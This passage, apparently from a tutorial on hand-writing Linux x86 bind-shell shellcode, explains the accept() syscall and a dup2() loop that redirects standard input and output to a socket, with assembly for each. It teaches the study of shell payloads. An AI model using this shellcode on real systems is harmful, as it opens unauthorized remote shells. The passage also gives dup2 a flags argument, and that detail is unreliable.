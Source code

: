 Thus, after zeroing out the registers, `ecx` is now `0x0` which is a NULL value and can be pushed to the stack twice. Then, the sockfd parameter can be pushed, which is again a pointer to our socket address stored in `edi`. 

Once these values are on the stack we can move the pointer to the stack into `ecx` and execute the syscall.

```x86asm
; accept
mov al, 0x66  		; int socketcall(int call, unsigned long *args)	;
mov bl, 0x5			; int accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen)	;

push ecx
push ecx
push edi 			; socket ptr

mov ecx, esp
int 0x80
```

Now that a socket has been created and is accepting incoming connections, we can redirect input/output back to the socket using dup2().

The [dup2()](https://man7.org/linux/man-pages/man2/dup.2.html) function definition looks like this:
```c
int dup2(int oldfd, int newfd, int flags);
```

Keep in mind that file descriptors on linux are: 
- stdin = 0
- stdout = 1
- stderr = 2

Thus, we will need to execute dup2() three times, one for each file descriptor. 

An important note is that the previous call to `accept()` has returned a pointer to a file descriptor for the socket in the `eax` register. We will want to use this file descriptor as a parameter in the dup2() function calls. 

To call dup2(), we will execute another syscall(). The enumerator index of `63`|`0x3f` can be found by running this command:
```bash
cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep dup2
```

Now that we have the syscall() number for dup2() and the general concept of what we will be doing, I will post the assembly now and explain it to give a clearer picture as there is a lot to unpack.

```x86asm
	; REDIRECT I/O
	; file descriptor : fd = (stdin = 0, stdout = 1, stderr = 2)
	; Will loop through all 3 file descriptors and redirct output to socket

						 
	xchg ebx, eax		; mov file descriptor for the accepted socket to ebx

	xor ecx, ecx		; zero out ecx
	mov cl, 0x2 		; set the counter (for loop)
	
loop:					; Loop through all file descriptors
	mov al, 0x3f		; syscall: dup2 (63)  -- NOTE: eax was cleared above. Good to reduce # of instructions.
	int 0x80			; exec dup2
	dec ecx				; decrement counter
	jns loop			; jump until SF is set ; (jmp if positive)
```
